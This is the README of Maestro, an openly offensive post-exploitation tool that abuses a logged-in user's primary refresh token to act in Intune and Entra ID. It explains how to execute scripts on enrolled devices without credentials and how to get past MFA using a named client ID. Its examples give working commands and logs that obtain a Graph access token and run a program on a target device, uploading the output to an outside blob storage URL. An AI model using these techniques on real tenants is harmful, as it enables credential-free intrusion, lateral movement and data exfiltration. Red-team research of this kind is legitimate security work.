 <p align="center">
    <img src="https://img.shields.io/endpoint?url=https%3A%2F%2Fraw.githubusercontent.com%2Fspecterops%2F.github%2Fmain%2Fconfig%2Fshield.json&style=flat"
        alt="Sponsored by SpecterOps"/></a>
    <a href="https://twitter.com/_Mayyhem">
        <img src="https://img.shields.io/twitter/follow/_Mayyhem?style=social"
        alt="@_Mayyhem on Twitter"/></a>
</p>

<div align="center">
  <img src="https://github.com/user-attachments/assets/b83c2371-c055-45e0-9667-08a70fc4f823" alt="maestro-logo" width="200">
</div>

---

# Maestro
Maestro is a post-exploitation tool designed to interact with Intune/EntraID from a C2 agent on a user's workstation without requiring knowledge of the user's password or Azure authentication flows, token manipulation, and web-based administration console. Maestro makes interacting with Intune and EntraID (and potentially other Azure services) from C2 much easier, as the operator does not need to obtain the user's cleartext password, extract primary refresh token (PRT) cookies from the system, run additional tools or a browser session over a SOCKS proxy, or deal with Azure authentication flows, tokens, or conditional access policies in order to execute actions in Azure on behalf of the logged-in user.

Maestro is essentially a wrapper for local PRT cookie requests and calls to the Microsoft Graph API with a lot of quality-of-life features added for red teamers. Maestro enables attack paths between on-prem and Azure. For example, by running Maestro on an Intune admin's machine, you can execute PowerShell scripts on any enrolled device without ever knowing the admin's credentials, even if MFA, device compliance, and a hybrid-joined device are required by conditional access policies.

Maestro's lateral movement functions were inspired by [Death from Above: Lateral Movement from Azure to On-Prem AD](https://posts.specterops.io/death-from-above-lateral-movement-from-azure-to-on-prem-ad-d18cb3959d4d) by Andy Robbins ([@_wald0](https://x.com/_wald0)). 

You can read more in this introductory blog post for Maestro: https://posts.specterops.io/maestro-9ed71d38d546

# Features
- Real-time PowerShell script execution (via Proactive Remediations)
- Application execution
- Real-time Device Query execution
- Force device check-in and sync
- Intune and Entra object enumeration
- Local database to store credentials and query results

# Notes
There is a compiled release in this repository using the `ReleasePlusMSAL` build configuration. Note that this configuration merges the MSAL dependencies into the .exe but increases the size of the resulting binary significantly. If you are not planning to use the `-m 2` method of requesting access tokens (SharpGetEntraToken via MSAL), you can compile a `Release` build and the size will be significantly reduced.

As of February 2025, Microsoft is rolling out mandatory MFA enforcement for authentication to Azure Portal and its extensions. The default access token request method using auth code flow will likely fail in this case, but using SharpGetEntraToken/MSAL (`-m 2` option) and specifying a client ID that does not require MFA like Azure Powershell (`1950a258-227b-4e31-a9cf-717495945fc2`) should still work. 

# Syntax
`Maestro.exe <command> [subcommand] [options]`

All commands and subcommands have a help page that is generated using a custom command line parser to keep the size of the binary to a minimum. Help pages can be accessed by entering any Maestro command followed by `-h` or `--help`.

Please refer to the output of the `--help` option for each command for the most up-to-date usage information.

Examples can be found at the bottom of this file.

# vNext
- Local Endpoint Privilege Management (EPM) enumeration

# Blogs/Talks
- [DEF CON 32 Demo Labs slides](https://docs.google.com/presentation/d/1TGl-ASNo-1jXMOha9yd1CdPI-zCMt2UP/edit?usp=sharing&ouid=114582824289521319309&rtpof=true&sd=true)

# Development
For debugging, I share a directory on an Intune-enrolled machine that is accessible from my host running Visual Studio, execute the Visual Studio Remote Debugger, configure a post-build job to copy the solution files to the share, and configure Visual Studio to remote debug on the enrolled system.

# Supporters
The time I'm able to spend researching, developing, and improving Maestro would not be possible without [SpecterOps's](https://www.specterops.io/) sponsorship of the project as part of their commitment to transparency and support for open-source development. I'm immensely grateful for their guidance and support.

# Contributions
Some Maestro features were inspired by or built based on the work of others, including:
- [RequestAADRefreshToken](https://github.com/leechristensen/RequestAADRefreshToken), by Lee Chagolla-Christensen ([@tifkin_](https://x.com/tifkin_))
- [ROADtoken](https://github.com/dirkjanm/ROADtoken), by Dirk-jan Mollema ([@_dirkjan](https://x.com/_dirkjan))
- [SharpGetEntraToken](https://github.com/hotnops/SharpGetEntraToken), by Daniel Heinsen ([@hotnops](https://x.com/hotnops))

If you're interested in collaborating, please hit me up on Twitter ([@_Mayyhem](https://twitter.com/_Mayyhem)) or in the [BloodHoundGang Slack](http://ghst.ly/BHSlack)!

# Examples
Get an access token for MS Graph using MSAL and the Azure PowerShell client ID (not yet prevented my mandatory MFA):
```
.\Maestro.exe get access-token -m 2 -t mayyhem.onmicrosoft.com -c 1950a258-227b-4e31-a9cf-717495945fc2 -s https://graph.microsoft.com/.default
2025-02-06 21:09:24.701 UTC - [INFO]    Execution started
2025-02-06 21:09:24.810 UTC - [INFO]    MSAL DLL loaded and ready for use.
2025-02-06 21:09:24.810 UTC - [INFO]    SharpGetEntraToken attempting to get an access token
2025-02-06 21:09:25.857 UTC - [INFO]    SharpGetEntraToken got an access token:
eyJ0...tDOg
2025-02-06 21:09:25.982 UTC - [INFO]    Completed execution in 00:00:01.3203797
```

Execute `dsregcmd.exe` on the Intune device with ID `e537180b-6d04-427e-bf93-dbde818400eb`, uploading results to the Azure Storage Blob Container SAS URL with a shared access token:
```
.\Maestro.exe exec intune upload -i e537180b-6d04-427e-bf93-dbde818400eb -n MyPolicy --url 'https://maestro2go.blob.core.windows.net/uploads?st=2025-01-14T20:19:57Z&se=2025-01-15T04:19:57Z&si=All&sv=2022-11-02&sr=c&sig=QYri...ZkpA%3D' --commands "%windir%\system32\dsregcmd.exe"
...
2025-01-14 20:20:28.251 UTC - [INFO]    Creating new device assignment filter with displayName: d004a709-aae6-4fbf-91cd-48f227272c97
2025-01-14 20:20:28.251 UTC - [INFO]    Requesting devices from Intune
2025-01-14 20:20:28.267 UTC - [INFO]    Requesting IntuneDevices from Microsoft Graph
2025-01-14 20:20:28.783 UTC - [INFO]    Found 1 IntuneDevice matching query in Microsoft Graph
2025-01-14 20:20:29.017 UTC - [INFO]    Found 1 devices in filtered results
2025-01-14 20:20:29.361 UTC - [INFO]    Obtained filter ID: 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64
2025-01-14 20:20:29.379 UTC - [INFO]    Creating custom config policy for device: e537180b-6d04-427e-bf93-dbde818400eb
2025-01-14 20:20:29.649 UTC - [INFO]    Obtained policy ID: fbca5c35-5282-4ec7-87de-a2d16a743079
2025-01-14 20:20:29.680 UTC - [INFO]    Assigning policy fbca5c35-5282-4ec7-87de-a2d16a743079 with filter 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64
2025-01-14 20:20:29.983 UTC - [INFO]    Successfully assigned policy with filter
2025-01-14 20:20:29.983 UTC - [INFO]    Successfully created and assigned diagnostic logs policy with request ID 651d2244-4ad7-4efe-bb5e-d017b0c27750
2025-01-14 20:20:29.999 UTC - [INFO]    Not syncing automatically, execute the following to force device sync:

    .\Maestro.exe exec intune sync -i e537180b-6d04-427e-bf93-dbde818400eb

Clean up after execution:
    .\Maestro.exe delete intune policy -i fbca5c35-5282-4ec7-87de-a2d16a743079
    .\Maestro.exe delete intune filter -i 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64

2025-01-14 20:20:29.999 UTC - [INFO]    Completed execution in 00:00:04.8572902
```
